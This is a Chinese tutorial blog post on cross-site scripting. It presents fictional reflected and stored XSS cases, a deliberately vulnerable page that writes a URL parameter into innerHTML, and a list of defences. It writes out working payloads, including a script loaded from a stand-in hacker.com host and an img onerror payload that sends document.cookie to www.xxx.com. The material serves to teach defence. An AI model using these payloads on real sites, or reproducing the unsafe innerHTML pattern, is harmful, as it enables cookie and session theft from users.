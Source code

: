 ```yaml
---
layout: post
title: WEB安全指北：XSS攻击
date: 2019-05-10
categories: blog
header-color: "#678"
tags: [js]
---
```


### 今日说法：XSS 攻击案例（一）

以下案例纯属虚构：

黑客发现新浪某 url http://weibo.com/a/b/content 存在漏洞，url 内容未经过滤直接输出到页面中

攻击者构建一个 url, 诱导用户去点击

    http://weibo.com/a/b/content"><script src="//hacker.com/evil.js"></script>

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：

```html
<li>
  <script src="//hacker.com/evil.js"></script>
</li>
```

浏览器接收到响应后就会加载执行恶意脚本 hacker.com/evil.js，在恶意脚本中利用用户的登录状态进行关注、发微博、发私信等操作，发出的微博和私信可再带上攻击 URL，诱导更多人点击，层层放大攻击范围。

### 今日说法：XSS 攻击案例（二）

程序员杨天宝开发了一个页面，用于展示用户输入的数据：

[dev.cabeza.cn/security/xss.html?a=坤坤](http://dev.cabeza.cn/security/xss.html?a=坤坤)

看起来没什么问题 😀

某日，杨天宝接到了自己页面的地址，虽然有点长:

<a href="http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM$L%27)%22%3E">dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22javascript:alert(%27NM\$L%27)%22%3E</a>

点开后，页面弹出了写着粗鄙之语的弹出框

杨天宝又接到了一串神秘网址：

[dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E](<http://dev.cabeza.cn/security/xss.html?a=%3Cimg%20src=%22%22%20onerror=%22document.body.appendChild(document.createElement(%27img%27)).setAttribute(%27src%27%2C%27http%3A%2F%2Fwww.xxx.com%2Fcookie%3Fc%3D%27%2Bdocument.cookie)%3B%22%3E>)

`注：该页面已经提前埋下了值为'password=ikun'的测试性cookie`

这时如果你打开浏览器的控制台，在 NETWORK 监控里就会发现已经朝http://www.xxx.com/cookie这个地址发送了请求，并且携带了自己的cookie

    http://www.xxx.com/cookie?c=password=ikun

想想攻击者拿到用户 cookie 意味着什么，杨天宝已经倒吸一口凉气了

### 案情分析

这是杨天宝开发的页面内容：

```html
<html lang="en">
  <head></head>
  <body>
    <div id="test"></div>
    <h1>我喜欢唱跳rap还有篮球</h1>
  </body>
  <script>
    // 从url参数中取值
    let a = getQueryString("a");
    document.querySelector("#test").innerHTML = a;
  </script>
</html>
```

杨天宝过分信任用户的输入，没有做任何防范。

上面的例子中，黑客的攻击语句分别为

    <img src="" onerror="javascript:alert('NM$L')">

    <img src="" onerror="document.body.appendChild(document.createElement('img')).setAttribute('src','http://www.xxx.com/cookie?c='+document.cookie);">

当这些恶意语句没有经过过滤注入到页面 HTML 中时，其中的 js 代码便会执行，实现达到窃取用户信息的目的

**这就是 XSS 攻击**

### XSS 的定义

Cross-Site Scripting（跨站脚本攻击）简称 XSS，是一种代码注入攻击。攻击者通过在目标网站上注入恶意脚本，使之在用户的浏览器上运行。利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。

为了不和层叠样式表（Cascading Style Sheets, CSS）的缩写混淆，故将跨站脚本攻击缩写为 XSS

### XSS 的分类

根据攻击手段的不同，xss 可以分为

- 存储型 XSS
- 反射型 XSS

#### 存储型

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

比如上文的网站中如果有一个供用户输入的评论框

<textarea class="form-control" rows="3" placeholder="请输入"></textarea>

攻击者在输入框内输入

    全民制作人你们好！<script>alert('NM￥L')</script>

数据提交到后端没有没有进行过滤直接持久化，那么其他用户浏览到这段评论，恶意脚本便会执行

当然这里的例子只是一个恼人的弹出框。如果攻击者的脚本是删除操作、转账操作, 那么后果将非常严重了

#### 反射型

上文案例中黑客攻击杨天宝的网站所用手段，便是一个典型的反射性 XSS 攻击，利用系统漏洞，构造出包含恶意代码的特殊 URL，并欺骗用户去点击访问，从而触发恶意脚本发起 Web 攻击

反射型 XSS 跟存储型 XSS 的区别是：存储型 XSS 的恶意代码存在数据库里，反射型 XSS 的恶意代码存在 URL 里。反射型 XSS 漏洞常见于通过 URL 传递参数的功能，如网站搜索、跳转等。由于需要用户主动打开恶意的 URL 才能生效，攻击者往往会结合多种手段诱导用户点击。

### XSS 的防御

#### 前端层面

- 输入内容控制长度
- 输入过滤
- 谨慎使用 innerHTML、document.write()等
- vue 框架中，谨慎使用 v-html
- react 框架中，谨慎使用 dangerouslySetInnerHTML

#### 服务器

- 各种 Web Application Firewall，比如 nginx lua waf
- 设置 HTTP 的 Content-Security-Policy 头部字段

[lua waf](https://github.com/p0pr0ck5/lua-resty-waf/blob/master/rules/42000_xss.json)

[Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

#### 后端

- 对于一切用户的输入、输出、客户端的输出内容视为不可信，对于前端传来的 HTML 务必进行转义
- cookie 设置为 http-only
- 敏感操作加入前置校验（验证码等）

[转义库 owasp](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project#tab=Use_the_Java_Encoder_Project)

### 总结

程序开发过程中

1. 始终认为用户是愚蠢的

2. 始终认为用户是恶意的

3. 攻防没有止境，定期主动对系统进行扫描，有备无患
